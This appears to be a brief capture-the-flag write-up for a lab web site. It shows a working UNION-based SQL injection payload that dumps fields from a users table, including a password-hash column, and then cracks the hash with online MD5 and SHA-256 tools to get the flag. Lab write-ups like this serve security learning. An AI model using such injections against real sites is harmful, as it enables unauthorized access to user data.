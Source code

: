 ## 1
http://{our_ip_address}/index.php?page=member (screenshot #1)

## 2
use this injection to find the  vulnerability:

1 AND 1=2 UNION SELECT user_id, CONCAT(first_name, last_name, town, country, planet, Commentaire, countersign) FROM users

check the screenshot #2 for results. On the 5th result we'll find the flag.

## 3

use the site https://md5decrypt.net/en/ to decript the key. We'll get "FortyTwo" as a result of the decription. We lower the letter of the string to 'fortytwo'. Then we use sha256 tools (e.g. https://emn178.github.io/online-tools/sha256.html) to find the flag.

